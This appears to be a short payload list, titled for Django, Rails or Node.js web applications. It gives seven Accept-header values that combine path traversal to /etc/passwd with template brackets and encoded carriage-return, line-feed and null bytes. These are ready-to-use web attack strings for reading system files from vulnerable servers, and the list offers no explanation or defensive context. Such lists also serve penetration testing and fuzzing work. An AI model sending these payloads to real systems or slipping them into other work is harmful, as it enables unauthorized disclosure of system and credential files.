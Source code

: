 # Django, Rails, or Node.js Web Application Header Values

Accept: ../../../../.././../../../../etc/passwd{{  
Accept: ../../../../.././../../../../etc/passwd{%0D  
Accept: ../../../../.././../../../../etc/passwd{%0A  
Accept: ../../../../.././../../../../etc/passwd{%00  
Accept: ../../../../.././../../../../etc/passwd{%0D{{  
Accept: ../../../../.././../../../../etc/passwd{%0A{{  
Accept: ../../../../.././../../../../etc/passwd{%00{{  
